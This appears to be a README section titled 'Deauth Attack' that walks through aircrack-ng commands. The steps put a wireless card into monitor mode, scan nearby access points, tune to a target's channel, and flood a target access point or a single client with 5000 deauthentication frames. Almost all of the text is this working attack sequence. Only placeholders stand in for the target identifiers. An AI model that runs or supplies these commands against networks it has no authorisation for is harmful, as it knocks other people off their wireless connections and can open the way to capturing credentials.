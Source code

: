 ### Deauth Attack
Set interface into monitor mode
```txt
sudo airmon-ng start wlan1
```
Scan nearby Access Points
```
sudo airodump-ng wlan1 
```
Scan specific AP
```
sudo airodump-ng --bssid <Target AP> --channel <Select channel number of target AP> wlan1
```
Set wifi interface channel same as target AP
```
sudo iwconfig wlan1 channel <Select channel number of target AP>
```
Start deauth attack for target AP
```
sudo aireplay-ng -0 5000 -a <Target BSSID mac address> wlan1 
```
Start deauth attack for specific client of target AP
```
sudo aireplay-ng --deauth 5000 -a <BSSID of target AP> -c <BSSID of target client> wlan1
```
